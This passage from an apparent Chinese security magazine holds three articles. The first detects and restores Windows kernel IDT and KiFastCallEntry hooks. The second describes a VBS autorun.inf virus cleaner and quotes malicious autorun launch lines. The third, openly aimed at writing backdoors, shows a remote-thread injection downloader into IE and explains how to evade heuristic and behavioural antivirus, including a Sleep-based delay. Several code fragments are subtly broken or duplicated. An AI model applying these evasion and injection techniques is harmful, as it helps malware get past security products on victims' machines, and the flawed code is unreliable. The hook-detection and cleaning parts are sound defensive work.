            WORD OffsetLow;
            WORD OffsetHigh;
        };
    };
    BYTE Reserved;
    BYTE Type:4;
    BYTE Always0:1;
    BYTE Dpl:2;
    BYTE Present:1;
    WORD Selector;
} *PKIDTRAWENTRY, KIDTRAWENTRY;
```

其中的各个域的意思和内存中的 IDT 表意思是一样的，只是偏移不同而已，就不多说了，大家可以查阅相关资料。实现代码如下：

```c
NTSTATUS GetRawIdtData(PVOID Buffer, ULONG BufferSize)
{
    MODULE_INFO KernelM={0};
    UCHAR* pKernelFile=NULL;
    ULONG i=0;
    int Stlen=0;
    PIMAGE_NT_HEADERS Nt_head=NULL;
    UCHAR* EntryPointer=NULL;
    PRAW_IDT pRawData=NULL;
    ULONG pBaseAddress=0;
    PKIDTRAWENTRY DT=NULL;
    PKIDENTRYS DTMe=NULL;
    KGDT Gdt={0};
    PISR_INFO pInfo=(PISR_INFO)Buffer;
    ULONG ImageBase=0;

    if(GetKernelBase(&KernelM)==0) {
        KdPrint(("[GetRawIdtData] Open Kernel Failed!\n"));
        return STATUS_ACCESS_DENIED;
    }

    if(BufferSize<(256*sizeof(KIDENTRYS)))
        return STATUS_BUFFER_TOO_SMALL;

    pKernelFile=(UCHAR*)MapViewOfImage(KernelM.FullPath);
    if(pKernelFile==NULL)
        return STATUS_UNSUCCESSFUL;

    Nt_head=(PIMAGE_NT_HEADERS)(pKernelFile+((PIMAGE_DOS_HEADER)(pKernelFile))->e_lfanew);
    EntryPointer=pKernelFile+Nt_head->OptionalHeader.AddressOfEntryPoint;

    while(1)
    {
        // 搜索特征码来获取文件里的表偏移，代码从略
        if(!pBaseAddress)
        {
            UnMapViewOfImage(pKernelFile);
            return STATUS_UNSUCCESSFUL;
        }

        KdPrint(("KernelFileAddress:%08X\tIDT_TABLE Address:%08X\n",pKernelFile,pBaseAddress));
        ImageBase=GetImageBase(pKernelFile);
        int Delta=(ULONG)pKernelFile-ImageBase;
        pBaseAddress+=Delta;

        DT=(PKIDTRAWENTRY)(pBaseAddress);
        _asm sidt Gdt;
        DTMe=(PKIDENTRYS)MAKELONG(Gdt.LowIDTbase,Gdt.HighIDTbase);

        for(DWORD index=0; index<256; index++)
        {
            if(DTMe[index].Present)
                pInfo[index].CurrAddr=MAKELONG(DTMe[index].OffsetLow,DTMe[index].OffsetHigh);
            else
                pInfo[index].CurrAddr=0;
            pInfo[index].Index=index;
            if(DT[index].Offset!=0x0000)
                pInfo[index].OrigAddr=DT[index].Offset+(ULONG)KernelM.Base-ImageBase;
            else
                pInfo[index].OrigAddr=0;
        }
    }

    if(pKernelFile)
        UnMapViewOfImage(pKernelFile);
    return STATUS_SUCCESS;
}
```

中断挂钩检测使用上面的代码就可以了，要恢复也比较简单，将内存 IDT 表里的地址改回来就可以。需要注意的是，操作系统本身也会修改这个地址的。对于中断处理函数 InlineHook 检测，一个难点是中断函数的长度是没有办法通过长度反汇编引擎来获取的，因为中断处理函数都是直通的函数，没有返回指令。可能有人会说中断不是有 iret 指令吗？确实如此，但是显然大多数中断处理函数不可能在一个函数里就完成，这里的中断处理函数结尾一般都跳到其他地址去了。所以没有好一点的方法来获取函数长度，自然比对内存检测 Hook 就不太现实了，可以比对开头的几个字节，但是这个字节数目到底是多少很难控制，多了不准确（可能取到了数据区），少了容易被绕过；还可以使用反汇编引擎检测 call 指令、push、ret、jmp 指令等，但是很显然这样的检测方法很容易被绕过，由于笔者尚未找到一个好的处理方法，所以这个问题就留给大家了。

接下来说说 KiFastCallEntry 钩子的检测及恢复。在说 KiFastCallEntry 钩子之前，我们来看看从 Ring3 通过 SYSENTER 进入 Ring0 的大致流程，具体细节可参考 Intel 手册。从用户级到特权级的跳转，可以通过 SYSENTER 指令来实现，在进行特权级切换时，需要知道切换到的新堆栈的地址，以及相应过程的第一条指令的位置、各个寄存器内容等，为此 IA-32 有一组特殊寄存器来实现上述数据的保存，称为 MSR（Model Specific Register）。

- SYSENTER_CS_MSR: New code segment selector 0x174
- SYSENTER_ESP_MSR: New Stack Pointer 0x175
- SYSENTER_EIP_MSR: New Instruction Pointer 0x176

后面的数据可以认为是寄存器的编号，对这三个寄存器的访问使用专门指令 rdmsr/wrmsr，编号由 ecx 指定，数据由 eax 传入或传出。Ring3 调用 SYSENTER 后，系统会把上面几个寄存器内容装入相应的寄存器，而 SYSENTER_EIP_MSR 中保存的地址就是 KiFastCallEntry。Ring3 到 Ring0 切换时，这个寄存器里的内容会被放到 EIP（指令指针）里面，之后切换到 Ring0，从而执行 KiFastCallEntry，所以 KiFastCallEntry 是用户态通往 SSDT 的必经之路，在这里可以拦截到所有 SSDT 函数的调用，由于其重要性，所以非常有必要单独关注。

以下这个未导出函数。前面说了，将 KiFastCallEntry 这个函数钩子检测和中断检测放到一起说是有依据的，原因就是 Windows XP 和 Windows 7 都无一例外地在 1 号中断里面使用了这个函数，而且第一个 call 就是，这样获取这个未导出函数地址就比较通用和准确了。网上一些工具（例如 ruk）是通过暴力搜索 KiLoadFastSyscallMachineSpecificRegisters 来获取这个地址的，这种方法首先效率低（KiLoadFastSyscallMachineSpecificRegisters 是在 text 节，还是比较大的），其次又不通用，很难保证在其他操作系统上搜索的准确性。从上面对 Ring3 进入 Ring0 的简单分析可知，KiFastCallEntry 至少有两个挂钩点。挂钩点一，SYSENTER_EIP_MSR 值修改挂钩；挂钩点二，KiFastCallEntry 的 Inline Hook，360 的挂钩点就是后面这种情况。明白了原理，检测和恢复就比较简单了，获取原始地址函数如下，函数参数是 1 号中断的地址。

```c
ULONG GetKiFastCallEntryOrigEntry(UCHAR *Trap1)
{
    UCHAR* p=Trap1;
    for(int i=0;i<1000;i++)
    {
        if(*p==0x81) // 第一个call就是了
        {
            return *(ULONG*)(p+2);
        } // 绝对call
        p++;
    }
    return 0;
}
```

获取当前 KiFastCallEntry 地址的代码如下：

```asm
__asm
{
    mov ecx,0x176
    rdmsr
    mov KiFmAddr,eax
}
```

之后的 Hook 检测很简单，首先是挂钩点一的检测和恢复，代码如下：

```c
if((Address+(ULONG)KernelModule.Base-ImageBase)!=KiFmAddr)
{
    // 转换到内存值再比较
    if(UnHook)
    {
        Irq=WPOFF();
        HookKiFastCallEntry(Address+(ULONG)KernelModule.Base-ImageBase);
        WPON(Irq);
        Ret=1;
        goto Exit;
    }
}
```

接下来是 Inline Hook 的检测，关键代码如下。需要注意的一点是这个函数也是直通的，没有返回指令，需要自己定义一个结束特征。在我的代码里还考虑了以下几种跳转的目标地址的记录，call、jmp、pushret，这样更易于知道究竟是哪个模块挂钩了这个函数。

call 和相对 jmp 的目标地址计算方法是一样的，绝对 jmp 和 pushret 方法转移时，目标地址就在指令中。Inline Hook 恢复直接将原始内容复制进来就可以了。

```c
else{
    ULONG Len=GetKiFastCallLen((UCHAR*)(Address+Delta));
    // 这个是一个直通函数，不能用原始方法来求
    UCHAR *Code=(UCHAR*)RtlAllocateNonPagedBuffer(Len+8);
    if(!Code){
        Ret=-1;
        goto Exit;
    }
    RtlCopyMemory(Code,(PVOID)(Address+Delta),Len+8);
    // 重定位数据
    DoReloc(pKernelFile,Address,Code,Len,(ULONG)KernelModuleBase-ImageBase);
    if(memcmp(Code,(PVOID)KiFmAddr,Len))
        GetPatchLength((UCHAR*)KiFmAddr,Code,Len,&Patch);
    if(Patch.Start>0){
        if(Code[Patch.Start-1]==0xe8) Patch.Start-=1;
        if(Code[Patch.Start-1]==0xe9) Patch.Start-=1;
    }
    // call Hook，获取 JMP/call 挂钩的目标地址
    pInfo->CurrentAdd=*(DWORD*)((char*)KiFmAddr+Patch.Start+1)+(ULONG)((char*)KiFmAddr+Patch.Start+5);
    pInfo->OrigAddress=*(DWORD*)(Code+Patch.Start+1)+(ULONG)(Code+Patch.Start+5);
    ...
    RtlFreeNonPagedBuffer(Code);
}
```

其中恢复 Hook 点的函数如下，和挂钩时使用的函数是一样的。

```c
ULONG HookKiFastCallEntry(ULONG Addr)
{
    ULONG OAddr;
    __asm {
        mov ecx,0x176
        rdmsr
        mov OAddr,eax
        mov eax,Addr
        wrmsr
    }
    return OAddr;
}
```

```asm
{
    mov ecx,0x176
    rdmsr
    mov OAddr,eax
    mov eax,Addr
    wrmsr
}
return OAddr;
}
```

最后再说说另外一个类似函数 _KiSystemService。在使用软中断 int 2E 从 Ring3 进入 Ring0 时就会进入这个函数，例如在 Windows 2000 下的 SSDT 函数调用进来就是这个函数，Windows XP 以上，在 Ring0 调用 Zw 函数也会跑到这里来。在这里就可以过滤到 Ring0 的一些操作了，如果是使用 Zw 系列函数的话，除此之外 Ring3 在调用 ShadowSSDT 服务例程的时候进入 Ring0 也是这个函数，一些程序可能在这里拦截和过滤 ShadowSSDT 函数调用。

这个函数的钩子检测和恢复比较简单，就不实现了，感兴趣的读者可以自己试试。获取原始地址直接从 Zw 系列函数里找就可以了，Zw 系列函数代码一般如下（以 ZwOpenProcess 为例）：

```asm
text:00406044 B8 7A 00 00 00    mov eax, 7Ah
text:00406049 8D 54 24 04       lea edx, [esp+ProcessHandle]
text:0040604D 9C                pushf
text:0040604E 6A 08             push 8
text:00406050 E8 DC 15 00 00    call _KiSystemService
text:00406055 C2 10 00          retn 10h
```

需要注意的是，_KiSystemService 函数也是直通的。这个函数只有一个 Hook 点，就是 Inline Hook。

本文代码在 WDK7600 下编译通过，在 Windows XP 下测试成功。注意在虚拟机测试时，sidt 指令可能得不到正确的内存中断表，在虚拟机里使用过 Xuetr 就知道了，它在虚拟机下有时取不到中断钩子信息，但是单步跟踪时却可以取到地址……在安装了 360 的虚拟机测试，结果如图 1 所示，上面是中断信息，下面是 KiFastCallEntry 的挂钩情况。


图 1

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

##### 前置知识：VBS

关键词：autorun 病毒、VBS 脚本、编码

##### VBS 实现通用定位

##### autorun.inf 中病毒体路径定位


文/图 Scriptkid

开篇之前，先说明一下本文涉及的对象，具体包括 WMI、Wscript.Shell、FSO、ADO。其中 Wscript 与 FSO 在脚本中起到界面交互和删除文件的作用，也可以不用它们，只用 WMI，这样的好处是可以在很多禁用 FSO 和 Wscript.Shell 的机器上运行。测试环境为 Windows XP SP3，VBS 编辑器 Notepad++。

脚本暂且命名为 Ukill，经历了两个版本，V1.0 诞生在 2008 年 12 月。当时被著名的“纯洁执法者”VBS 病毒（Administrator.vbs）感染了，发现 U 盘杀毒工具 Usbcleaner 的监控程序会错误地提示 Wscript.exe 为病毒，所以当时一时兴起，自己作为 VBS 的爱好者研究了病毒之后写了第一个全盘遍历 autorun.inf，通过 list="vbs,exe,com,bat,pif,cmd,src,vbe" 正则匹配，逐行搜索 autorun.inf 里的“=”与“list”间的内容来定位执行病毒体 Administrator.vbs 路径。优点是定位速度非常快，效果不错。但这种匹配方式存在通过后缀判断的弊端，如果在 Autorun.inf 里用 wscript /e:vbscript XXX 来启动 VBS 的话，这样的 VBS 根本就没有后缀名，就绕过了检测。

2009 年整理硬盘资料时发现这个小脚本，觉得很有意思，于是有了 V2.0。V2.0 彻底改变了匹配的规则，并加入了 FSO 快速扫描和文件十六进制的深入扫描两种分析功能；判定 INF 编码是 Unicode 还是 ANSI 功能；自身完整性校验保护功能，比 V1.0 有了很大的提高。这里把 V2.0 编写中的点滴乐趣和大家分享如下。

首先，我们要辨别 INF 的编码是 Unicode 还是 ANSI？这样辨别有两个用处。一是因为 Unicode 和 ANSI 的十六进制区别（具体大家可以自行查阅 Unicode、ANSI、UTF8 编码的相关资料，这里不占用版面），从而给后面的十六进制分析埋下伏笔。二是在 FSO 快速扫描功能里，我们需要通过 opentextfile(path_f,1,false,-1) 方法来打开 Unicode 编码的 INF 文件，而对于 ANSI 编码的 INF 我们需要通过 opentextfile(path_f,1,false) 方式来打开。如果打开方式不对，则有可能无法读取到需要匹配的信息。

我们以著名的 Conficker 蠕虫的 autorun.inf 为例来说明。该 autorun.inf 文件的编码是“Unicode Big-Endian”，如果用常见的 opentextfile(path_f,1,false) 来打开，就会出现无法读取的情形。相关函数如下：

```vb
'FSO 方式快速扫描函数
Sub fsovirus(path_f,drive)
    If flag(Checkencoding(path_f),"Unicode")=1 then
        '如果校验的结果中含有 Unicode，那么用下面的方式打开
        set objf=tmpfso.opentextfile(path_f,1,false,-1)
    End If
    If flag(Checkencoding(path_f),"ANSI")=1 then
        set objf=tmpfso.opentextfile(path_f,1,false)
    End If
    m=0
    do until objf.atEndofstream=true
        '逐行读取，直到文件的末尾
        strline=lcase(objf.readline)
        m=m+1
        If flag(strline,"=")=1 then
            '以下部分是快速扫描的核心匹配部分，我将在后文中详细说明
            strlinearry=split(strline,"=",-1)
            virus_p=trim(strlinearry(ubound(strlinearry)))
            virus_p=lcase(drive&"\\"&virus_p)
            call del(virus_p)
        End If
        If flag(strline," ")=0 then
            str0=Test(strline,"=",m+1)
            virus_p=trim(replace(str0,"=",""))
            virus_p=lcase(drive&"\\"&virus_p)
            call del(virus_p)
        End If
    loop
End Sub

'编码校验函数
Function CheckEncoding(path)
    '通过读取文件的前两个字节的十六进制数来判断文件的编码
    Const adModeRead=1
    Const adTypeBinary=1
    Set objADO=CreateObject("ADODB.Stream")
```

```vb
With objADO
    .Mode = adModeReadWrite
    .Type = adTypeBinary
    .Open
    .LoadFromFile path
    .Position = 0
    Headers = .Read(4)
    BOM = UCase(Replace(Escape(Headers), "%u", ""))
    If Left(BOM, 4) = "FEFF" Then
        CheckEncoding = "Unicode"
    ElseIf Left(BOM, 4) = "FFFE" Then
        CheckEncoding = "Unicode Big-Endian"
    ElseIf Left(BOM, 4) = "BBEF" Then
        CheckEncoding = "UTF-8"
    Else
        CheckEncoding = "ANSI"
    End If
End With
objADO.Close
Set objADO = Nothing

'字符串检测标记函数
Function flag(s1, s2)
    If InStr(LCase(s1), LCase(s2)) > 0 Then
        flag = 1
    Else
        flag = 0
    End If
End Function
```

通过 `Replace(string, "=", " ")` 函数替换掉“=”，再用 `Trim` 函数去掉首尾空格，就会得到病毒的路径。这种匹配方式的优点很明显：不通过扩展名来判断，病毒无论怎么变形都可以检测到。

```vb
'规则匹配检查函数，sline 参数为要进行匹配的字符串，rule 是你定义的匹配规则。
'如果匹配存在，返回匹配后的字符串；如果不存在，返回空，即 ""。

Function Test(sline, rule, i)
    sline = LCase(sline)
    rule = LCase(rule)
    Set objreg = New RegExp
    objreg.Pattern = rule
    objreg.IgnoreCase = False
    objreg.Global = False
    result = objreg.Test(sline)
    If result = False Then
        Test = ""
    End If
    If result = True Then
        Set matches = objreg.Execute(sline)
        For Each match In matches
            Test = LCase(match.Value)
        Next
    End If
    Set objreg = Nothing
End Function
```

编码确定后，如何更加通用地定位 `autorun.inf` 文件里的病毒路径呢？我们来详细说说 FSO 快速扫描方式中的匹配方法。先看一个可能的 `autorun.inf` 写法：

```ini
[autorun]
open=mm /e/v:bscript xxx
; 这里是 VBS 病毒的变形写法，我们可以把 wscript.exe 重命名为 mm，然后 VBS 病毒体不用后缀名，任意写为 xxx

shellexecute=ghost.exe 3.vmx
; 这里是 VBS 病毒的变形写法，我们可以把 wscript.exe 重命名为 ghost.exe，然后病毒体任意写为 3.vmx

shell\auto\command=ghost.exe 4.vbs
; 这里是常见的 VBS 病毒写法

shell\auto\command=ghost.pif
; 这里是常见写法，不用调用
```

通过分析，我们可以发现每一行只有两种可能：一种是有空格的，一种是没有空格的。而且可以看出，无论病毒文件名如何变化，都会在每行最后一个空格之后。所以，我们可以读取每行内容后先判断该行有无空格；若有空格，通过 `Split` 函数按空格分组，读取数组最后一个元素 `Array(UBound(Array))` 即为所需内容。如果没有空格，通过正则匹配“=.*”读到该行“=”后的内容，然后再配合 `Replace/Trim` 处理。

下面要说的是进行文件十六进制深入分析功能。提出这个功能的缘由是 Conficker 蠕虫经典变形 `autorun.inf`。由于它通过 INF 文件里的注释符“;”（后面内容不执行）加入了大量垃圾干扰代码，同时由于采用 “Unicode Big-Endian” 编码，使用 FSO 来扫描很容易出错。函数的详细注释如下，里面调用的其他函数请参考源码。

```vb
'深度扫描函数
Sub hexsvirus(path_f, drive)
    str = LCase(File2Hex(path_f))
    '通过 File2Hex 函数将文件读取为十六进制代码
    strarry = Split(str, "0a", -1, 1)
    '通过读取换行符 0a，将原 INF 文件分行变成数组
    For i1 = 0 To UBound(strarry)
        '遍历每行十六进制内容
        strhex = Test(Hex2Str(strarry(i1) & "0a"), "=.*vmx", i1 + 1)
        '匹配 "=.vmx"，原因可看出该 INF 执行部分一样在 vmx 之间
        If Len(strhex) > 0 Then
            strhexarry = Split(strhex, " ", -1, 1)
            virus_p = Trim(strhexarry(UBound(strhexarry)))
            virus_p = LCase(drive & "\\" & virus_p)
            Call del(virus_p)
        End If
    Next
End Sub
```

```vb
'del 函数为自定义 FSO 删除函数，不做说明
...tmpws.popup "病毒" & virus_pd & vbCrLf & "清除成功", 3, "提示"
End If
Next
End Sub
```

```vb
Call fsosvirus(fname, path_sf)
tmpws.popup "发现 autorun.inf，深度扫描启动", 3, "提示"
Call hexsvirus(fname, path_sf)
re = objfile.delete
'这个是 WMI 里删除文件的一种方法
If Not (re = 0) Then
    MsgBox fname & "清除失败程序即将退出"
    WScript.Quit
Else
    tmpws.popup fname & "触发匹配规则，清除成功", 3, "提示"
End If
Next
End Sub

'简单自校验函数
Function copyright(path_f)
    Set tmpfso = CreateObject("Scripting.FileSystemObject")
    copyright = False
    Set f = tmpfso.GetFile(path_f)
    size = f.size
    Set fv = tmpfso.OpenTextFile(path_f, 1)
    ...
    If size = 3809 Then
        copyright = True
    End If
    Set tmpfso = Nothing
End Function
```

这里我只以 Conficker 蠕虫的特征为例，你可以把采集到的其他特征写成数组，相当于一个小型病毒特征码库，然后通过上面提供的文件十六进制扫描函数进行循环判断。所以扩充是非常方便的。定位的效果如图 1 所示。


图 1

要提到的是十六进制分析也有其不足的地方，由于字母大小写法在十六进制中不同，这样改变了字符串的大小写后，若采用十六进制特征就必须进行相应的变化，同时 ANSI 和 Unicode 两种编码的十六进制字节不同，也会加大分析的难度。

基于以上原因，我在函数中用到了 `Hex2Str` 函数。这样，就可以通过转化为字符串，然后使用 VBS 里自带的 `LCase` 转小写或者 `UCase` 转大写函数统一来进行比较，避开了大小写的缺点。

上面就是整个 Ukill 脚本的核心部分。还有一些常见的函数我就不赘述了。下面要分享两个自己写的比较新颖的自定义函数：一个是 WMI 文件遍历，另外一个是 VBS 自身完整性校验函数。

常见的 VBS 遍历方式是用 FSO。这里我用 VBS 调用 WMI 写了一个只遍历磁盘根目录下的函数。只要将这个函数稍加改动，采用递归调用，就是一个非常不错的纯 WMI 的 VBS 全盘遍历文件函数，比 FSO 的执行效率要高很多。全盘文件遍历的函数我已经写好了，大家可以自己动手试试将下面的 `wmisfile` 函数修改为一个全盘遍历函数。提示一下，可以用递归的方法。为方便叙述，详细注释如下：

```vb
'遍历 autorun.inf 函数
Sub wmisfile(path_sf)
    On Error Resume Next
    Set filelist = objwmi.execquery _
        ("associators of {win32_directory.name='" & path_sf & "'} where " _
        & "resultclass = cim_datafile")
    '采用 CIM_DATAFILE，速度比较快
    For Each objfile In filelist
        fname = LCase(objfile.name)
        ename = LCase(objfile.extension)
        If InStr(fname, "autorun.inf") > 0 Then
            tmpws.popup "发现 autorun.inf，快速扫描启动", 3, "提示"
```

这里我提供的是一个简单的 FSO 方式自校验完整性的方法。其实还可以做得更加严格一点，我说一下思路，有兴趣的朋友可以自己试着实现一下。比如可以事先用一个数组，装入一些设定好的非打印（即不可显示）的十六进制数，将这些数散乱地混杂分布于 VBS 脚本中，通过之前的十六进制深入扫描函数 `hexsvirus` 来判定预先设定的初始值是否在特定的位置。如果任何一个初始值有改动，则校验失败，文件自焚，这样的检验就比较严格了。这种校验思路的另外一个好处就是避免 FSO 对象的使用。

到这里，似乎看起来已经比较严谨了，但是后来经过 FlowerCode 兄的几个变形 `autorun.inf` 测试。为什么……

呃？这里贴出来，希望有对 VBS 感兴趣的朋友一起来想个更加通用的方法定位出路径。

- 测试一：现有 Windows XP SP3 简体中文专业版系统装在桌面，标准配置。  
  文件：`1`（无扩展名），内容如下：

```vb
msgbox "OK"
```

文件：`autorun.inf`，内容如下：

```ini
[autorun]
icon=boot.ini
shellexecute=cmd /c "start wscript /e:vbscript 1"
```

- 测试二：文件 `autorun.inf`，内容如下：

```ini
[autorun]
icon=boot.ini
shellexecute=cmd /c "for /f %%a in ('1') do start wscript /e:vbscript %%a"
```

在测试一中，由于脚本判断规则漏洞，会删除每行最后一个空格后的内容，导致 `icon=boot.ini` 这类行误删系统文件名。可通过只判断 `open`、`shellexecute`、`command` 后的内容来规避，`icon` 行之后的内容可忽略。

这里还有一个问题：仅判断这三个关键字仍不够，例如注释符可被利用；还需判断 `;` 是否为注释行。另外测试一会获取路径为 `1`，这个较好解决，可通过过滤文件名非法字符 `\ / : * ? " |`。

```vb
Function profiler(string)
    string = Trim(LCase(string))
    sarray = Split(string, " ", -1, 1)
    string = sarray(UBound(sarray))
    ss = "\/:*?""<>|"
    For i = 1 To Len(ss)
        string = Replace(string, Mid(ss, i, 1), "")
    Next
    profiler = string
End Function

MsgBox profiler("c:\1\\!" & Chr(8) & 22))
```

至于测试二，请教了 FlowerCode 后，感觉变量赋值定位较难，但命令行参数传递时通常会带 `%`，或可通过 `%` 来判断。

好了，编写 Ukill 2.0 的过程中心得就这些了。由于水平和时间限制，文中不对之处敬请指正。Ukill 1.0 未详述，大家可参考附件；若你也是 VBS 爱好者，欢迎交流。

前置知识：无  
关键词：免杀、启发杀毒、主动防御

##### 高启发与主动防御之战

###### ——基于漏洞的免杀技术（上）


文/闪亮的心

很早就想写这样一篇文章，可一直有些细节问题没有弄清。请教了众多高手后，整理出本系列文章。上篇讲述启发式杀毒和主动防御原理与特点；中篇讲如何定位启发式杀毒及主动防御真实代码；下篇讲如何绕过启发式杀毒及主动防御。

高启发与主动防御虽都基于函数拦截技术，但查杀过程差异很大。高启发采用静态反汇编分析函数执行模块，根据流程判断敏感函数是否有违规操作；主动防御则 Hook 敏感 API，在程序执行中监控不信任进程调用敏感 API 的行为。

如果调用行为符合黑客程序的流程，则进行拦截。比如某程序通过 URLDownloadToFile 在后台下载 EXE 程序，高启发是在检查程序文件的时候发现有 URLDownloadToFile 这个函数，如果此函数下载的是 EXE 文件则直接进行查杀。而主动防御则是当程序运行到调用 URLDownloadToFile 的时候，进行动态拦截。对于两种截然不同的杀毒方式，我们逐个进行简单分析。

首先来了解一下高启发。事实上，大多数人对于高启发的认识存在这样一个误区：认为高启发的病毒特征是定位在程序输入表上。我们来换位思考一下，对于 API 来说，并没有具体分类使用说明来指出有的必须用于后门程序，有的必须用于正常软件。这显然不合乎逻辑，那么高启发究竟是怎么判断的呢？

例如我们通过传统定位方式在定位某个木马的 NOD32 特征时，经常会定位到 `kernel32.dll` 这个字符串上面，但是所有程序的输入表信息里几乎都有 `kernel32.dll` 这个字符串，那么显然 NOD32 不是只看到 `kernel32.dll` 这个字符串就进行查杀的。对于一个木马文件的免杀来说，一般我们只关心 `.text` 这个段，因为它是由编译器产生、存放整个程序执行流程的二进制代码，也是所有杀毒软件分析的对象。NOD32 的算法非常特别，虽然是从 `.text` 段查询特征代码，但最终是通过分析算法定位到了输入表函数上……

对于传统杀毒软件来说，一般特征码的提取是根据相对虚拟地址对应的机器码进行匹配的……但是 NOD32 的高启发则略有不同，选取的是 API 调用指令的机器码作为特征匹配码。

例如 `system("command.com")` 是用来开启一个 DOS 对话框的函数，首先系统会把 `command.com` 这串字符压进堆栈，这时堆栈指针 ESP 就会指向栈顶，也就是 `command.com` 的地址；接着系统又会把函数 `system` 的地址放进寄存器 EAX 中，最后由 “EIP CALL EAX” 完成整个函数的执行过程。假设 NOD32 把 `system` 函数认定为危险函数，它可能就会把 “MOV EAX,7801AFC3h” 所对应的机器指令作为特征码在整个 `.text` 段进行匹配……

说白了，一句话，所谓高启发也就是函数执行过程的机器码匹配。再简单点，就是机器指令字符串的多重匹配。

接下来，我们来做一个实验来验证结论的正确性。远程线程注入技术是现今比较流行的后门隐藏及穿墙技术，比如灰鸽子就是通过远程注入来插入 IE，从而达到隐藏自身和穿墙目的的。我们简单配置一个远程注入的下载者来说明这一问题，其主要代码如下：

```cpp
// 省略定义结构体以及部分函数
Bool InjectIE(DWORD ProcessID)
{
    if (EnableDebugPriv(SE_DEBUG_NAME))
        return FALSE;

    HANDLE Handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessID);
    if (Handle == NULL)
        return FALSE;

    void *pRemoteThread = VirtualAllocEx(Handle, 0, 1024*4,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (pRemoteThread == NULL)
        return FALSE;

    if (!WriteProcessMemory(Handle, pRemoteThread, &DLthread, 1024*4, 0))
        return FALSE;

    HANDLE hThread;
    hThread = CreateRemoteThread(
        hWnd, 0, 0, (LPTHREAD_START_ROUTINE)pRemoteThread,
        pRemoteData, 0, 0);

    return true;
}
```

以上代码就是一个典型的插入 IE 进程下载者的基本框架。假设我们在主函数内添加一些垃圾代码，例如 `HANDLE m_handle = GetCurrentProcess(); CloseHandle(m_handle);` 等类似代码，那么相对于 `.text` 段的二进制代码都会发生改变（比如原来 `0x00006836` 对应的机器指令是 `B4`，那么现在就有可能变成 `A3` 或者其他）。如果再做杀毒软件的表面杀毒测试，会惊奇地发现以前报毒的程序现在已经不报了。但对于 NOD32 则不然，它会提示“未知 PE 病毒”。这时候无论我们怎么移动函数或者添加代码，结果依然不变。

如果做这样的测试：我们将 `URLDownloadToFile` 和 `CreateRemoteThread` 注释掉，再编译查杀，发现 NOD32 已经不报毒了；同样，如果把 `WinExec` 和 `CreateRemoteThread` 注释掉，一样不报毒。由此可见，NOD32 的高启发主要是采用函数组合匹配的方式来进行查杀。如果要逃避高启发的查杀，要么改变函数的使用序列，要么保护 `.text` 段不被反编译。前者我会在后面的文章着重讲解，这里说一下后者。

如何保护程序不被反编译？毫无疑问要使用保护壳。其实壳的作用就是对 PE 文件按照某种算法进行加密或压缩，当程序在运行的时候，再由壳程序进行解密释放。那么对于 NOD32 这样启发杀毒的杀毒软件来说，如何高效地脱壳就是其面临的最大问题。但是随着微软逐渐面向一些大企业开源 Windows 代码，或许脱壳难的问题将会慢慢得到解决，同样也会逐渐淘汰现在普遍使用的加壳/改壳法绕过高启发。

在分析完高启发的杀毒模式后，接下来我们来分析主动防御。主动防御和高启发不同：高启发是通过仿真技术对 PE 文件进行查杀，而主动防御则是在 PE 文件执行的过程中进行动态查杀。如果某个非信任的 PE 文件在执行过程中有某些敏感行为（调入了某些危险函数）就进行拦截。简单说，就是动态查看线程调用某个 API（比如 `CreateRemoteThread`）的控制流路径。

虽然主动防御在当今被称为行为拦截技术，但本质上来说还是特征码查杀，只不过由传统文件特征查杀转变为在执行过程中进行函数特征查杀，其实现过程就是 Hook 了它认为危险的 API。当然并不是所有的敏感 API 调用都要进行拦截。在 Win32 平台下，系统会为每一个进程空间分配 4GB 的可访问地址。在实际调用中，系统会根据进程需要通过内核来分配实际物理地址。那么在有限的系统资源下，主动防御不可能监控每一个系统进程。

以 KIS2010 为例，当一个程序在实际执行过程中，KIS2010 会首先判定其是否为许可程序。比如“添加到信任列表中的程序”或者具有“数字签名”的程序；如果是此类程序，则放行；如果不是，则进行监控。当监控中的程序调用了相关监视中的 API 时，则进一步分析判定；如果判定有危险，则进行拦截。

如果要突破主动防御，首先要做到的就是定位主动防御的特征代码，更明确地说是定位主动防御的拦截函数。一般来说，主动防御是 Hook SSDT 表的相关函数；如果查询，通常会使用 ARK（Anti-RootKits）工具，但对于不熟悉内核的程序员来说，很难将 Ring0 下的某个 API 对应到 Ring3 下的 API。再者，对于未公开的函数来说，通常需要逆向工程来分析其具体执行流程。如果是单纯定位主动防御的具体函数，通过延迟触发未尝不是一种比逆向工程更为简单快捷的方法。

我们知道，现在所有的主动防御都会拦截 `CreateRemoteThread()`，那么对于上面的代码段，我们做如下处理：

```cpp
//省略定义结构体以及部分函数
//把远程线程写入内存，Dlthread 为下载者线程
//初始化结构体并写入内存，省略
HANDLE hThread;
Sleep(5000);  //做延迟触发
hThread = CreateRemoteThread
    (hWin, 0, 0, (LPTHREAD_START_ROUTINE)pRemoteThreadProc,
     adpRemoteData, 0, 0);
return true;
}
```

我们在 `CreateRemoteThread()` 前加入 `Sleep(5000)`，也就是说在程序执行完 5 秒后再创建远程线程。这时候你会惊奇地发现，改动前与改动后主动防御的提示有了很大变化：改动前是杀毒软件立即弹出了主动防御拦截提示，而改动后主动防御的提示大概会在程序启动 5 秒后弹出。

如果你熟悉 WINDBG 或者 SOFTICE，还可以对 `CreateRemoteThread()` 加入断点再跟踪。这时候很容易发现，主动防御是在程序执行过程中进行动态拦截的。换句话说，假设 `CreateRemoteThread()` 前面没有主动防御拦截的相关函数，那么在程序执行到 `CreateRemoteThread()` 之间的函数，已经全部被执行过了。基于此点，如果合理利用 `Sleep` 这个函数的话，我们可以使得一个程序分时进行，在函数被拦截前做很多小动作；如果小动作做得够巧妙，未必不能实现我们的目的。

综合两种方法来看，未来杀毒软件势必有将两者结合的趋势，从 KIS2010 就能看出来。启发式杀毒速度快、准确率高，但是受到反调试和保护壳的影响；而主动防御则有及时防御、保护性强的特点，但是系统占用率过高、程序执行缓慢，以及函数执行过程分析困难。二者相结合的话，就能实现优势互补。所以在编写后门程序的时候，我们就应当采用“先表面，再启发，后主动”的思路。

###### 前置知识
- 无

###### 关键词
- 免杀
- 启发杀毒
- 主动防御

##### 反病毒与反主动防御之路——基于源码的免杀技术（上）


文/JKS/闪亮的心

